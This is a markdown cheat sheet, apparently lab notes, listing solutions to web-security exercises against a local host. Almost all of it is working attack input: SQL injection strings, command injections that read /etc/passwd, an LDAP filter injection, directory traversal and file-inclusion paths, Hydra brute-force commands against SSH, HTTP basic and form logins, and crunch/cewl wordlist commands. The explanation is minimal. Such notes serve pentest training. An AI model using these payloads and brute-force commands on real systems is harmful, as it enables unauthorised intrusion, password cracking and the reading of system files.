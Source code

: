 # Phase III: Vulnerbility discovery & Exploitation
## SQL Injection
| excercise | solution |
|-----------|----------|
| example&nbsp;1 | root'+OR+'1'='1, `root'OR+1=1+--` |
| example&nbsp;2 | root'%09OR'1'='1 |
| example&nbsp;3 | root'/**/OR/**/'1'='1 |
| example&nbsp;4 | 2+OR+1=1 |
| example&nbsp;5 | 2+OR+1=1#123 |
| example&nbsp;6 | 2+OR+1=1#123 |
| example&nbsp;7 | 2%0AOR+1=1# |
| example&nbsp;8 | name\`,IF((SELECT+0x61)=0x61%2Cid%2Cage)+%23 |
| example&nbsp;9 | IF((SELECT+0x61)=0x61%2Cid%2Cage), `IF((SELECT'a')='a',id,age)` |

## Command Injection
| excercise | solution |
|-----------|----------|
| example&nbsp;1 | 10.0.2.4+%26%26+cat+%2Fetc%2Fpasswd `10.0.2.4 && cat /etc/passwd`|
| example&nbsp;2 | 10.0.2.4%0A%26%26+cat+%2Fetc%2Fpasswd `10.0.2.4(New Line)&& cat /etc/passwd`|
| example&nbsp;3 | curl -X GET http://10.0.2.4/commandexec/example3.php?ip=10.0.2.4%0A%26%26+cat+%2Fetc%2Fpasswd |

## LDAP attacks
| excercise | solution |
|-----------|----------|
| example&nbsp;1 | http://10.0.2.4/ldap/example1.php `remove all parameter` |
| example&nbsp;2 | http://10.0.2.4/ldap/example2.php?name=hacker)(cn=*))%00&password=1234 |

## Hydra
### Secure Shell
hydra -P /usr/shared/wordlists/rockyou.txt
	  -l root
	  ssl://10.0.4.5
	  -f -vVd 
	  -o result.txt
	  -e nsr

### Basic Authentication
hydra -P /usr/shared/wordlists/rockyou.txt
	  -l admin
	  10.0.4.5 http-get "/auth"
	  -f
### Form Authentication
hydra -P /usr/shared/wordlists/rockyou.txt
	  -l admin
	  10.0.4.5 http-post-form "/login:username=^USER^:password=^PASS^:submit=Login:F=Invalid username"
	  -f
### Create WordList
* crunch 4 4 `minimum 4 characters and maximum  4 characters`
* crunch 4 4 -o mywordlist.txt
* crunch 4 4 1234567890 -o mywordlist.txt
* crunch 4 4 -t @%,^ -o mywordlist.txt `@=lowercase characters, %=numbers, ,=uppercase characters, ^=symbols`
* crunch 4 4 -f /usr/share/crunch/charset.lst lalpha -o mywordlist
* cewl -d 2 -m 4 -w test.txt http://www.php.net `-d=depth, -m=minimum word length, -w=write`

## Directory Traversal
| excercise | solution |
|-----------|----------|
| example&nbsp;1 | ../../../../../../../../../etc/passwd |
| example&nbsp;2 | /var/www/files/../../../etc/passwd |
| example&nbsp;3 | ../../../etc/passwd%00 `Null Bytes Injection` |

## File Include
| excercise | solution |
|-----------|----------|
| example&nbsp;1 | ../../../../../../../../../etc/passwd |
| example&nbsp;2 | ../../../etc/passwd%00 `Null Bytes Injection` |
